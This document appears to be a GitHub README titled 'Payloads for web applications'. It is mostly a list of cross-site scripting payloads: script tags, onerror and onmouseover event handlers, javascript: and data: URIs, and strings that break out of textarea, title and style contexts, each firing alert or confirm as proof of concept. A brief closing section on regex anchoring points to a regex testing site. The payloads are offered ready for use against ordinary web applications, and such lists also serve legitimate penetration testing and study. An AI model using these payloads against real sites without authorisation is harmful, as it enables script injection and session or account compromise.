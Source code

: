 # Payloads for web applications

## XSS
- Level-wise
```bash
"><u>ashok # Check the HTML encoding
<script>alert(1)</script>
<script>alert(1);//</script>
<script>confirm(1);//</script>
<img src=x onerror=alert(1)>
<img src=x onmouseover=alert(1)>
<a href=javascript:alert(1)>test123
<iframe src=javascript:alert(1)>
<object data="data:text/html,<script>alert(1)</script>"></object>
<object%20data="data:text/html,<h1>Ash0k</h1>"></object>
<script src=data:text/javascript,alert(1337)></script>
</p>test123  | </p><h1>test123 | </p><h1><u>test123
text123"%20onmouseover=alert(1);// # First confirm with test123"> printing the special characters
test123;//"><img/src=x%20onerror=alert(2)></textarea><img/src=x%20onerror=alert(2)> # Text area tag must be closed </textarea>
"></textarea><ScRiPt>alert(1)</ScRiPt>
text123</title><script>alert(1)</script> # Title tag must be closed </title>
#fff);}</style><script>alert(1)</script><style>body{background-color:#   # Style sink close
text123%27;alert(1)// # Check the special characters like single or double quotes
<script></script><script>alert(1)</script>



```


## Best Practices
> Resources for Regex [Regular Expressions](https://regex101.com/)
- Here it can allow any website, it matches `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex1.png)

- Here it should match `^ sign`, `In the TEST STRING, Instead of . we can place any single character`
![Regex](/Images/regex_Secured.png)
